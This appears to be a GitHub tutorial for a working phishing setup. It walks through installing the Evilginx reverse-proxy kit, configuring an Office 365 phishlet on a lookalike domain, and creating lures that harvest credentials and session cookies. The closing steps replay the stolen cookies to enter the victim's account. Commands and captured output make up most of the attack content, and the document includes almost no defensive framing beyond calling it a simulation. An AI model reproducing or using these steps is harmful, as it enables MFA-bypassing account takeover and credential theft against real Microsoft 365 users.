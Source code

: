 Before proceeding with the installation of Evilginx, let’s ensure that wget is installed on the VPS.

sudo apt update 
sudo apt install wget -y


Next, let’s download the Go installation files.
wget https://golang.org/dl/go1.17.linux-amd64.tar.gz

Install Go by executing the following command:
sudo tar -zxvf go1.17.linux-amd64.tar.gz -C /usr/local/

Next, configure the PATH environment variable by running:
echo "export PATH=/usr/local/go/bin:${PATH}" | sudo tee /etc/profile.d/go.sh 
source /etc/profile.d/go.sh

Execute the following commands to clone the source files from GitHub:
sudo apt-get -y install git make 
git clone https://github.com/BakkerJan/evilginx2.git 
cd evilginx2 
make

After completing the cloning process, we can proceed to install Evilginx globally and run it.
sudo make install 
sudo evilginx

Now it is time to configure evilginx. We are going to simulate this with a Microsoft 365 account. For my domain, I am doing evilginxtest.shop. For my IP, it is: 52.144.47.242

config domain <yourdomain> 
config ip <yourIP> 
blacklist unauth

Next, let’s configure the Office 365 phishlet to match our domain.
phishlets hostname o365 <yourdomain> 
phishlets enable o365

If you encounter an SSL/TLS error at this stage, it indicates that your DNS records are not yet in place. When a phishlet is enabled, Evilginx attempts to obtain a free SSL certificate from LetsEncrypt for the new domain.
However, this process requires the domain to be accessible. Once the new SSL certificate is successfully activated, you can anticipate some traffic from scanners. If you’ve previously adjusted the blacklist to “unauth,” these scanners will be blocked.

In the next step, we’ll set the lure for the Office 365 phishlet and define the redirect URL. This URL comes into play after the credentials are phished and can be customized according to your preferences. For this example, we’ll use https://portal.office.com/.

lures create o365 
lures edit 0 redirect_url https://portal.office.com 
lures get-url 0

Our phishlet is now active and accessible via the URL https://login.evilginxtest.shop/RdgjuhBs (no longer active). When accessing the URL from the lure, you’ll be treated as an authenticated session, thus avoiding being blocked. 

Let us see what happens when a user goes to this link:

It seems like a regular microsoft login page.
![image](https://github.com/user-attachments/assets/dcf20d05-6fe2-40ff-97de-4fdee2eb6d06)

After entering the username and password, the user's credentials are caught through the reverse proxy the malicious domain simulates
![image](https://github.com/user-attachments/assets/b8fb9489-1cb8-4d6c-a3fc-38e4b8ee562f)

After a full sign in, we have got the session cookies. We can use the command "Sessions 0" (mine may be a different number, because I had multiple.)
![image](https://github.com/user-attachments/assets/8f293e48-b323-4167-8566-2102eec0da22)

And there you go. If you copy and paste these cookies after clearing your own into a cookie extension on your browser while on office.com, you refresh the page and you are in!





